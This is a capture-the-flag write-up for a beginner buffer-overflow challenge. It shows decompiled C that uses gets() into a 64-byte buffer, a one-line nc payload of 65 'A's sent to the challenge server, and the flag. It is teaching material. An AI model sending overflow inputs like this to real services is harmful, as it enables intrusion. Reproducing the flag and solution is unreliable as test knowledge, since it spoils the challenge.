

# executable (300) - pwn

Total solves - 23

Final score - 254

## Description
No code this time! hahahaha

`nc ctf.copsiitbhu.co.in 31144`

Author - kn1gh7

## Atachments
executable

## Box and Port
ctf.copsiitbhu.co.in:31144

## Writeup
This challenge was intended to teach you with basics of buffer overflow

Put the binary in a decompiler and see the function. This is the output of the main function given by Hex-Rays decompiler in [dogbolt](https://dogbolt.org/?id=678a3dbb-8a43-4077-8b59-932e610b6e4f)

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int v5; // [esp+4Ch] [ebp-Ch]

  setbuf(_bss_start, 0);
  v5 = 0;
  puts("Would you like a flag?");
  gets(s);
  if ( v5 )
    system("cat /flag.txt");
  return 0;
}
```
To understand how buffer overflow works here you need to have a basic understanding of how the stack works. Along with that you had to understand why you can exceed the 64 characters due to a vulnerability in `gets` function. You can watch [this](https://www.youtube.com/watch?v=fjMrDDj47E8) video to get a visual overview

Now clearly, we just have to overwrite the variable v5 and as `gets` is used, an input larger than 64 bytes will overwrite it (can be confirmed using gdb as well).

`python -c "print('A'*65)" | nc ctf.copsiitbhu.co.in 31144`



## FLAG
COPS{r3v_w17h_pwn}
